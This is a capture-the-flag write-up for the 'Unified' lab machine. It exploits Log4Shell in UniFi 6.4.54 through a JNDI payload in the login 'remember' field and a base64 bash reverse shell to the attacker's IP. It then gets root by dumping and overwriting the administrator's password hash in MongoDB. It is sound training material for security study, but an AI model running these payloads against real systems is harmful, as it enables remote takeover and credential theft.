 # Unified
## User flag

When starting a box it's always a good idea to run nmap to enumerate services on the target machine. Running `nmap -sV -sC 10.129.97.178` shows us the versions of services running and may point us towards vulnerabilities. The scripts don’t give us much, but we see that the machine has four TCP ports running:

![nmap results](images/1image.png)


We try going to `10.129.97.178` in a firefox (would help if we do it through BurpSuite in case we need to monitor requests and responses later) but it doesn’t work. That’s because we need to specify port 8080. Trying `http://10.129.97.178:8080` and then accepting the risks takes us to this web page:

![web page](images/2image.png)


We see that it redirected us to port `8443` and has taken us to a login page. The login page shows that we are dealing with UniFi version `6.4.54`, which may be useful if we want to leverage a vulnerability found in this version.

A quick google search shows us that UniFi version `6.4.54` is vulnerable to the Log4Shell Vulnerability ([CVE-2021-44228](https://www.cve.org/CVERecord?id=CVE-2021-44228)). The CVE page shows that we can run arbitrary code if we are able to leverage this vulnerability.

This page: https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi shows us how to do the exploit. 

In order to do the exploit, we need Java JDK and Maven. Java is already on Kali linux so we download Maven using `sudo apt install maven`.

We can now run `git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package`

This command compiled the jar we will use to construct the reverse shell. 

We need to convert the command to build our reverse shell into base 64 because that is how we will construct our web call to UniFi. The vulnerability takes advantage of the “remember" field. Our payload will go in there. The payload will be the result of this command: 

`echo 'bash -c bash -i >&/dev/tcp/10.10.14.153/4444 0>&1' | base64`

Note we are using our tun0 ip address for this and that we arbitrarily chose port 4444 for the listener port. 

Now we need to set up the LDAP server for our server. Again, this will use our `tun0` IP address. The full command to run will be: 

`java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE1My80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.10.14.153"`

We can then run the command to start our attacker LDAP server. 

![Attacker LDAP](images/3image.png)

Now we need to run a curl command to trigger the reverse shell. The curl command on the exploit page won’t work because our box has many more aspects to the request. 

To know how to modify our request, we can use **BurpSuite** to intercept the login post request. Turn on the Proxy intercept on BurpSuite. Enter "admin" for the username and the password (could be anything you want, not just "admin"). Then we can convert it to a curl request and replace the “remember” portion as shown in the page. 

```
curl -k -X POST https://10.129.97.178:8443/api/login \
  -H 'Host: 10.129.97.178:8443' \
  -H 'Sec-Ch-Ua-Platform: "Linux"' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"' \
  -H 'Content-Type: application/json; charset=utf-8' \
  -H 'Sec-Ch-Ua-Mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36' \
  -H 'Accept: */*' \
  -H 'Origin: https://10.129.97.178:8443' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://10.129.97.178:8443/manage/account/login?redirect=%2Fmanage' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Priority: u=1, i' \
  -H 'Connection: keep-alive' \
  --data-raw '{"username":"admin","password":"admin","${jndi:ldap://10.10.14.153:1389/o=tomcat}":false,"strict":true}'
```

This should open up a reverse shell in your netcat listener. To make it a little easier to deal with, run `script /dev/null -c bash`.

We start out in `/usr/lib/unifi/data`. But we can navigate to the `/home`directory to see what users are around. We find `/home/michael` here. The user flag (`user.txt`) can be found here. 

## Root flag
Now we need to escalate privileges. Following the article, we see we can run this to get users and their passwords: 

`mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

Most importantly we see this hash: 

administrator@unified.htb
$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.

Continuing to use the article, we can replace the existing password with our own since the password is salted (can’t use John the Ripper or something similar to reverse the hash we see). 

The command we need to adjust is: 

`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'`

Let's change the password to "password". We can get the hash by running `mkpasswd -m sha-512 password`.

We will get if we change the password to “password”:

`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$fv8Xt6KTm.SdvlKA$lJapZC4b4o9KBPnPAsWQKyww68/RwvGTpbyjQM5BaqpjB9I6P5Pu1m/oc5MIRlgLHLXSup8tE9TUoWmSjIokm/"}})'`

Now we can log into the website using `administrator` as the username and `password` as the passowrd. 

We can go to settings and scroll down to find out that the `root` password is `NotACrackablePassword4U2022` for ssh. 

Once we log in, we see the `root.txt` file right there in the `/root` folder. 
